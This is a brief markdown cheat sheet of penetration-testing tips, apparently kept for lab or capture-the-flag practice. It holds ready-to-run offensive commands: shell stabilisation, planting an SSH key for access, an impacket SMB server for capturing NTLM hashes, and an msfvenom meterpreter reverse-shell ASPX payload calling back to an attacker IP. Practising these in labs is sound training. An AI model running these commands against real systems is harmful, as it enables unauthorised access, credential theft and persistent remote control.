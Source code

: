 ```yaml
---
title: Random Tips and Tricks
published: true
---
```


To stabilize a bash shell:
```shell
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
Then press enter twice
export TERM=xterm
```

Adding an SSH key to a box:
```shell
On Kali, generate a key:
    ssh-keygen -t rsa
Next, copy the public key over to the users /home/.ssh/authorized_keys file
Then, simply ssh in using the private key:
    ssh -i <key name> username@host
```

Cleaning an SSH key:
```shell
Sometimes you may need to copy and paste an SSH key, and it's supposed to work... but it's not. You may need to remove bad chars and clean it up:

chmod 600 id_rsa
dos2unix id_rsa
vi --clean id_rsa
inside vi: (esc) + wq
ssh -i id_rsa username@host
```

Serving an SMB server with impacket:
```shell
impacket-smbserver evil ./ -smb2support
```
It's good practice to use the smb2support flag. If you see a connection come through that doesn't provide a NET-NTLMv2 it could be because you set up
the smb server without smb2 support.

Setting up python virtual environments:
```shell
python3 -m venv myenv

source myenv/bin/activate

pip install -r requirements.txt (replace with whatever command is needed to install whatever it is your doing)
```

Call tools globally on linux regardless of user:
```shell
Move the tools to:
/usr/local/bin
```

Generic usage of msfvenom:
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.245 LPORT=4444 -f aspx -o shell.aspx
```


